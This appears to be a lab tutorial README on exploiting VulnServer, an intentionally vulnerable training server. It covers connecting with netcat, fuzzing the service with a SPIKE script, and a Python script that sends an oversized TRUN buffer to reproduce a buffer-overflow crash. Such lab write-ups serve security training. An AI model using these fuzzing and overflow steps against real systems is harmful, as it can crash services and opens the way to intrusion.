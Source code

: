 # VulnServer 

We Need Two Virtual Machines Windows 10 , Kali . Download VulnServer [Here](https://thegreycorner.com/vulnserver.html)

In the Windows VM open Cmd go to `vulnserver` directory < Run `vulnserver.exe`.

In the Kali , write this command < HELP
```sh
nc -nv 192.168.242.130 9999
```
Now we have to Find a Crash we do that by Fuzzing , we write a code in `test.spk`.

![alt text](testspk.png)

run the vulnserver < write a command in kali 

```sh
generic_send_tcp <windows vm ip> 9999 test.spk 0 0
```
We then Notice that it crashes after a bunch of inputs 

![alt text](spkcrash.png)

Now that we got a Crash , Its time to Analyse the Crash for that we use Immunity Debugger [Download](https://www.immunityinc.com/products/debugger/)

Open the Vulnserver.exe in Immunity Debugger.

To Recreate the Crash we write a Python Script : `exploit3.py`

```python
#!/usr/bin/python
import os 
import sys 
import socket


host = "192.168.242.130"
port = 9999
buffer = "A" * 5000
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print ("sending exploit3")
s.send("TRUN /.:/" + buffer)
print s.recv(1024)
s.close()
```


